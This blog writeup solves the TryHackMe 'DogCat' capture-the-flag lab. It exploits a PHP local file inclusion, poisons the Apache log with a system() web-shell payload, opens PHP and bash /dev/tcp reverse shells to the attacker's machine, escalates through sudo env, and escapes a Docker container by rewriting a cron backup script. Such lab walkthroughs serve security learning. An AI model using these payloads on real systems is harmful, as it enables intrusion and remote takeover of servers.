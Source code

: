 ```yaml
---
title: "[EN] - TryHackMe : DogCat writeup "
date: 2020-04-19T11:00:00+02:00
draft: false
tags: ["CTF", "THM", "TryHackMe", "DogCat", "Writeup"]
---
```


Hey, everybody,  
Here is my first writeup post about a CTF, and for the moment, I propose you my solution of the [Dogcat](https://tryhackme.com/room/dogcat) challenge on the [TryHackMe](https://tryhackme.com) website.

The goal of this machine is to get 4 flags, by reading the description of the machine and the twitter post of the box, we may already know that we will have to use a LFI and escape a docker container.

## Recon

When we launch the machine we can directly access it via a web browser, to make sure we are on the right page to operate, we can launch an nmap scan.

```bash
root@kali:~# nmap -sT -T5 -A 10.10.214.114
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-19 09:09 UTC
Nmap scan report for ip-10-10-214-114.eu-west-1.compute.internal (10.10.214.114)
Host is up (0.00052s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
MAC Address: 02:42:89:24:24:BC (Unknown)
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.10 - 3.13 (94%), Linux 3.8 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 3.11 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.52 ms ip-10-10-214-114.eu-west-1.compute.internal (10.10.214.114)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.44 seconds
```

Only the port `80`  is open with an `Apache 2.4.38` web server, when you go to the web page, you can see a web page which offers to see a picture of dogs or cats.

The first interesting information that we can retrieve is the parameter, which actually suggests that a LFI is possible, and the version of `PHP` which is in `7.4.3`, an interesting information because with this version it is not possible to exploit a LFI with a null byte (`%00`) or a *path truncation*.

![](/images/2020/ctf/THM_Dogcat_Recon1.png)

The first trivial test is directly to try to load the file `/etc/passwd` :  
`http://10.10.214.114/?view=../../../../../../etc/passwd`

![](/images/2020/ctf/THM_Dogcat_Recon2.png)

But the site forces the user to use the keyword `dog` or `cat`, let's try again:

![](/images/2020/ctf/THM_Dogcat_Recon3.png)

## Exploiting LFI & First flag

Hum interesting, the error message shows that a LFI seems possible, however impossible to load the `/etc/passwd` file because the `.php` extension is automatically added, to get around that we could have used the null byte `%00` character or a path truncation but as I said, it's not possible with this version of PHP, fetching the `index.php` file to start with and see if it's possible to get additional information.

But if you try to directly load the `index.php` file via the URL `http://10.10.214.114/?view=dog../../index` you will get an error :

![](/images/2020/ctf/THM_Dogcat_Exploit1.png)

This is because the site is trying to include the `index.php` page a second time, the trick here is to use the php wrapper `php://filter` and convert the content to base64. Once recovered it is enough to decode it online or directly in your console :

![](/images/2020/ctf/THM_Dogcat_Exploit2.png)

Ok it's possible to retrieve the content of a `php` file, with a bit of guessing we can retrieve the first flag by reaching the page `flag.php` and decoding the retrieved content as for the page `index.php` via the page `http://10.10.214.114/?view=php://filter/convert.base64-encode/resource=dog../../flag`.

![](/images/2020/ctf/THM_Dogcat_Flag1.png)

## Gaining shell & flag 2

By looking for a little other file we don't find much interesting, let's resume our file `index.php`, we can see this interesting little piece of code:

![](/images/2020/ctf/THM_Dogcat_Recon4.png)

For those who are not comfortable with PHP, we can translate this as :
The `ext` parameter will be equal to the `ext` GET parameter, otherwise we'll use `.php`.
And if the GET parameter `view` contains the value `dog` or `cat` we'll look for the page that will contain the value of the GET parameter `view` and `ext` (so either the value provided in the URL or `.php` if no value is provided)

Interesting... Let's try again to load the contents of /etc/passwd by including the GET parameter `ext` and leaving it empty:

`http://10.10.214.114/?view=php://filter/resource=dog../../../../../../etc/passwd&ext=`

Ok good, we got it :

![](/images/2020/ctf/THM_Dogcat_Recon5.png)

We realize that it doesn't contain much interesting stuff, I was hoping to find a specific user in it but that's not the case, so we'll certainly have to get a shell as `wwww-data` and find a way to become `root`.

In our case, if we look for the techniques to obtain a shell with a LFI have fallen on several techniques, for those that seems exploitable in our case I retained :
* RCE via Apache log poisonning
* RCE via `/proc/self/environ`

In our case, it is not possible to load the `/proc/self/environ` file, which begins to confirm the fact that we are partitioned in a docker container.
Let's look at the first case, to succeed we need 2 things:
* Be able to access the apache log file, which is accessible via the url `http://10.10.214.114/?view=php://filter/resource=dog../../../../../../var/log/apache2/access.log&ext=`
* Inject content into it: Can be done by changing our user-agent.

*note: I found the file `/var/log/apache2/access.log` by testing the default paths where the Apache log file can be found.*

Hop, we launch burp, reload the page and intercept the request to include the payload `<?php system($_GET['cmd']);?>` in the user-agent, this will have the effect that each time we load the file `/var/log/apache2/access. log` with the GET parameter `cmd` of our command will be interpreted since the code snippet `<?php system($_GET['cmd']);?>` will be interpreted in the page since it is PHP ...

So like I said, we inject our payload:
![](/images/2020/ctf/THM_Dogcat_Exploit3.png)

Then we can use it by loading the file `/var/log/apache2/access.log` and using the GET parameter `cmd` with the value of the command we want to use :
![](/images/2020/ctf/THM_Dogcat_Exploit4.png)

To be a little more comfortable, it is possible to obtain a shell, we know that PHP is used on the machine so we will directly use a php payload to obtain a reverse-shell via the command `php -r '$sock=fsockopen("{IP_KALI}"",1234);exec("/bin/sh -i <&3 >&3 2>&3");'` such as here (don't forget to listen on the defined port) :

![](/images/2020/ctf/THM_Dogcat_Exploit5.png)

And then we get our first access on the server and we can retrieve the second flag:
![](/images/2020/ctf/THM_Dogcat_Flag2.png)

## PrivEsc & flag 3

For this task I didn't have to look for a long time, a little `sudo -l` allows me to see that a command is executable as root:
![](/images/2020/ctf/THM_Dogcat_Exploit6.png)

A simple search on [https://gtfobins.github.io/](https://gtfobins.github.io/) shows that it is possible to raise your privileges with the command `sudo env /bin/bash`, once root you get the third flag:

![](/images/2020/ctf/THM_Dogcat_Flag3.png)

## Container escape & flag 4

Ok more than the last flag, in order to validate that we are in a docker container we can use the command `hostname` which indicates a weird name that indicates a container name, we can also see the `dockerenv` file at the root, other methods allow us to confirm that we are in a container such as checking cgroups, ...

After searching quite a lot, including the different possible exploits I realized that it was a bad technique, because a lot of commands are not usable on the server (such as basic commands like `wget` etc...) which left me thinking that this was not the right track.

So I manually enumerated the machine, looking for elements that could help me escape the container such as a script via the `find / -type f -name *.sh` command, the first result is the file `/opt/backups/backup.sh`, hum interesting, looking at its contents :

![](/images/2020/ctf/THM_Dogcat_Recon6.png)

Interesting, I don't know much about docker but from what I understand, it's the root user of the host machine that makes a backup, I may be wrong but I understand that there is a `/root/backup` mount point on the host machine to the container.

As it is a backup script, we can imagine that it is executed periodically, so we can modify its contents to try to get a shell on the host machine.

So we will have to modify the `backup.sh` file with the following content :
```bash
#!/bin/bash
bash -i >& /dev/tcp/{KALI IP}/8080 0>&1
```

And tap into our Kali machine.

![](/images/2020/ctf/THM_Dogcat_Exploit7.png)

Here we go, root on the host machine, we just need to retrieve the last flag:
![](/images/2020/ctf/THM_Dogcat_Flag4.png)

## Conclusion

The [TryHackMe] site (https://tryhackme.com) is a good site in general I think, I've been chaining the different machines for about a week now and I've learned a lot, here again it's an interesting challenge because it's not a very basic LFI, it requires to get the source code and understand it to be able to go further.

It's also the first time I've encountered a challenge where I had to drop a container, which is really interesting.